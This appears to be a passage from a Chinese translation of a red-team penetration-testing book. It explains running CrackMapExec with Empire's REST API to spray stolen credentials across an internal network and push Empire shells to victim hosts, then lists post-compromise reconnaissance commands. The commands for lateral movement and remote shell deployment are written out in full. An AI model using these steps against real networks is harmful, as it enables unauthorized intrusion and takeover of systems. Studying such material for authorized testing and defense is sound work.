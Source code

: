 我们将需要提供一个要测试的用户名列表，但是由于我们只是查询 DC（域控制器）而没有对其进行身份验证，因此通常此行动不会被检测。现在，我们可以采用这些用户帐户，并再次开始密码猜解!

## 使用 CrackMapExec（CME）扫描网络

如果我们还没有成功入侵进一个系统，但是我们确实通过 Responder、错误配置的 Web 应用程序、暴力破解或通过打印机获得了登录凭证，那么我们可以尝试扫描网络，看看这个帐户可以登录到哪里。使用像 CrackMapExec（CME）这样的工具进行简单的扫描可以帮助找到内部网络上的初始入口点。

过去，我们使用 CME 扫描网络、通过网络上的 SMB 进行标识/身份验证、对许多主机远程执行命令，甚至通过 Mimikatz 提取明文凭证。Empire 和 CME 都拥有了一些新特性，我们可以利用 Empire 的 REST 特性。在下面的场景中，我们将使用其 REST API 启动 Empire，在 CME 中配置密码，让 CME 连接到 Empire，使用我们拥有的单一凭证扫描网络，最后，如果成功完成身份验证，则自动将 Empire 的 payload 推送到远程受害者的系统。如果你有一个 helpdesk 或高权限帐户，那就准备好加载 Empire shell 吧！

- 启动 Empire 的 REST API 服务器
  - cd /opt/Empire
  - ./empire --rest --password ‘hacktheuniverse’
- 更改 CrackMapExec 密码
  - 打开 /root/.cme/cme.conf
  - password=hacktheuniverse
- 运行 CME 来生成 Empire shells
  - cme smb 10.100.100.0/24 -d ‘cyberspacekittens.local’ -u ‘<username>’ -p ‘<password>’ -M empire_exec -o LISTENER=http

![](../images/chapter_4/4-10.png)

![](../images/chapter_4/4-11.png)

## 在攻陷你的第一台机器之后

当你通过社会工程、drop box、Responder、攻击打印机或通过其他攻击获得对主机的访问权限后，下一步要做什么？这是一个非常重要的问题。

在过去，你需要做的一切，是了解你身在何处和周边的网络环境。我们可能首先运行类似于“netstat -ano”的命令来查找受害者的服务器、域和用户的 IP 范围的位置。我们还可以运行命令，如 `ps` 或 `sc queryex type= service state= all | find  “_NAME”` 列出所有正在运行的服务，并寻找杀毒软件或其他主机基础保护。下面是一些我们最初可能运行的其他示例命令：

网络信息:

- netstat -anop | findstr LISTEN
- net group “Domain Admins” /domain
